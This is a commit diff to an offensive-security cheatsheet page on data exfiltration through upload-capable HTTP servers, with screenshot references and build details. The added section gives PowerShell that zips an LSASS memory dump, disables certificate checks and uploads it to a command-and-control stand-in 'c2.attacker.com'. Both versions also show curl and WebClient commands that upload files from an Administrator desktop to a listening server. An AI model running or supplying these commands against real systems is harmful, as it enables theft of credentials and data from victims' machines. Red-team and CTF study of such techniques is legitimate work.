

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Windows-Linux-Curl-SimpleHTTPServerwithUpload.md
Transferred GO SimpleHTTPServer here + upload commands

````diff
--- a/docs/Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.md
+++ b/docs/Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.md
@@ -1,37 +1,47 @@
 # Using Curl to POST data to SimpleHTTPServerWithUpload.py
 
 
-## Better version of this with Project Discovery's SimpleHTTPServer in Go [here](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
+## ProjectDiscovery [SimpleHTTPServer](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
+* Simple command for running
+    ```bash
+    simplehttpserver -https -upload
+    simplehttpserver -https -upload -listen 0.0.0.0:443
+    ```
+* Upload a file via [curl](../Useful_Commands/Linux.html#upload-files-via-curl)(Linux) or [powershell](../Useful_Commands/Windows.html#download-uploading-files)(Windows). Try to [compress](../Network/Data_Exfiltration/Windows-Archiving_and_Compression.md#powershell) first
+    * Windows
+       * Powershell (Possible to convert to one-liner and execute via *cmd*>`powershell "<b;e;l;o;w;>"`)
+          ```powershell
+          Compress-Archive -LiteralPath C:\Windows\temp\lsass.dmp -DestinationPath C:\Windows\temp\lsass.zip
+          [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
+
+          $uri='https://c2.attacker.com/lsass.zip'
+          $uploadPath = 'C:\Windows\temp\lsass.zip'
+          Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials"
+          ```
 
 
 ---
-## Caveats
-* Insecure communications (HTTP)
-    * Choose a server that accepts POST request and makes use of HTTPS
-
-## Download
-* [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan
-
-
-## Modify listening port
-* If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
-
-    ```python
-    def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
-    server_address = ('', 1337)
-    httpd = ServerClass(server_address,HandlerClass)
-    httpd.serve_forever()
-    ```
-
-## From client-side
-
-Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)
-
-* Linux
-    ```bash
-    curl -F "file=@flag.zip" http://10.1.2.3:8000/
-    ```
-* Powershell
-    ```powershell
-    $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
-    ```
+## Python3 SimpleHTTPServer
+* Caveats
+   * Insecure communications (HTTP)
+       * Choose a server that accepts POST request and makes use of HTTPS
+* Download
+   * [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan
+* Modify listening port
+   * If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
+       ```python
+       def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
+       server_address = ('', 1337)
+       httpd = ServerClass(server_address,HandlerClass)
+       httpd.serve_forever()
+       ```
+* From client-side
+* Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)
+   * Linux
+       ```bash
+       curl -F "file=@flag.zip" http://10.1.2.3:8000/
+       ```
+   * Powershell
+       ```powershell
+       $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
+       ```
````
